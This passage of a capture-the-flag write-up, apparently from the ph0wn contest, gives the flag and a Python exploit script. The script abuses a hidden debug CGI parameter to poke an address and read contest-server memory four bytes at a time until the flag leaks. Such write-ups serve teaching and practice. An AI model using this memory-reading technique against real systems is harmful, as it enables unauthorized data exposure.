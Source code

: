 ### The exploit

Just here, we have to use the address of the flag found at the start of the solution of the second part.  
So with few request, we are able to leak all the flag: **ph0wn{easierWithPeek}**
```python
import requests
from struct import pack

p32 = lambda x : pack("<I", x)

url_template = "http://megademo.ph0wn.org/h1dd3n.cgi?debug=1&pokeAdr=2000316C&pokeValue="
addr = 0x60019b38

flag = b''


while b'}' not in flag:
    r = requests.get(url_template + hex(addr)[2:])
    for l in r.content.decode().split('\n'):
        if '<td>0x' in l:
            break
    l = l.replace('\t', '').replace('<td>','').replace('</td>','')
    flag += p32(int(l, 16))
    addr += 4

print("The flag is:", flag.decode())
```
